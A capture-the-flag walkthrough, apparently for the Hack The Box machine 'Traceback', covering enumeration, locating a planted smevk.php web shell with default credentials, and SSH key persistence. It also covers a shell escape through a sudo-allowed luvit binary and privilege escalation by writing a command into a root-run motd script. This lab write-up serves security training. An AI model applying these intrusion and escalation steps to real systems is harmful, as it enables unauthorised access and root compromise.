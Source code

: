 # Traceback
## [nmap -A -T3 -p- -o traceback.nmap traceback.htb][1]

## This site has been owned

Once you land on the index page you find a nice alert that the site has been owned by ***Xh4H***

Let's start enumarating some dir on the webserver:
`gobuster dir -u http://traceback.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -o directories.txt`
here you can find [directories.txt][2]. Nothing usefull on the webserver.

Looking at the source of webpage there's a comment by the hacker : `Some of the best web shells that you might need ;)` 

Searching with Google we can find [Web-Shells][3], there are many shells so let's create a dictionary with the shell's name and search wich one is using Xh4H

`gobuster dir -u http://traceback.htb -w shells.txt`
```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://traceback.htb
[+] Threads:        10
[+] Wordlist:       shells.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/06/13 13:09:43 Starting gobuster
===============================================================
/smevk.php (Status: 200)
===============================================================
2020/06/13 13:09:44 Finished
===============================================================
```

***smevk.php*** is the backdoor.

## smevk.php 

The login credentials looking at the source code in the repository are: ***admin:admin***

using the webshell we can go inside the webadmin home, where there's a file from sysadmin note.txt:
```
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

add our ssh-key to the autorized_keys inside the webadmin home so we can login via ssh

running `sudo -l`
```
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

we can run as sysadmin [luvit][4] that seems to be a lua engine like node.  

Run it with `sudo -u sysadmin /home/sysadmin/luvit` that open an interactive prompt.

## sysadmin bash

Inside luvit run `os.execute("/bin/bash")` and we drop in sysadmin bash

### Writable files

```
find / -type f -writable 2>/dev/null | grep -v /proc
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/.bashrc
/home/sysadmin/luvit
/home/sysadmin/.bash_logout
/home/sysadmin/.ssh/authorized_keys
/home/sysadmin/.cache/motd.legal-displayed
/home/sysadmin/.bash_history
/home/sysadmin/.profile
/home/webadmin/note.txt
/sys/kernel/security/apparmor/.remove
/sys/kernel/security/apparmor/.replace
/sys/kernel/security/apparmor/.load
/sys/kernel/security/apparmor/.access
/sys/fs/cgroup/memory/cgroup.event_control
```

### Readable files

`find / -type f -readable 2>/dev/null | grep -v /proc | grep -v /usr | grep -v /sys | grep -v /lib | grep -v /run | grep -v /sbin | grep -v /bin | grep -v /boot`
it's a really long list you can find it [here][4]

### SUID bins

```
find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/vmware-user-suid-wrapper
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/bin/ping
/bin/mount
/bin/fusermount
/bin/umount
/bin/su
```

Seems we can write into ***/etc/update-motd.d/00-header*** that is a script runned by root when you login via ssh. we can steal the root flag adding into it `cat /root/root.txt` 


[#]://
[1]: traceback.nmap
[2]: directories.txt
[3]: https://github.com/TheBinitGhimire/Web-Shells
[4]: readable.txt

![htbbadge](https://www.hackthebox.eu/badge/image/272787)
